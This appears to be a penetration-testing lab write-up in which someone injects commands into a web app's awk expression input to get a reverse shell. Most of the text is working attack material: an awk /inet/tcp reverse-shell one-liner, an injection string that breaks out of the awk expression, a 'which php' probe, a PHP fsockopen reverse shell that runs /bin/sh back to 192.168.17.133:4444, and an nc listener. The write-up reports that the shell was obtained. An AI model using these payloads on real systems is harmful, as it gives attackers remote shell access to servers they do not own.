

The bash rev and awk payload didn't worked as well as we don't have python install so will go with php
The AWK payload didn't worked
As there is only 1 payload mentioend on the Payload for everything site for AWK
Command: awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
Let's see if we can get a rev-shell of this
ip address : 192.168.17.133
port : 4444
Will set NC at port 4444
Command : nc -nlvp 4444
awk 'BEGIN {s = "/inet/tcp/0/192.168.17.133/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
Input we will provide :
10)^2))}';/usr/bin/awk 'BEGIN {s = "/inet/tcp/0/192.168.17.133/4444"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null;#
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Will check the php by this command:10)^2))}';which php;#

Will run the payload
Command:10)^2))}';php -r '$sock=fsockopen("192.168.17.133",4444);exec("/bin/sh -i <&3 >&3 2>&3");';#
And set up a Net-Cat listner at port 4444 and luckily the Website got stuck and we got the rev-shell.
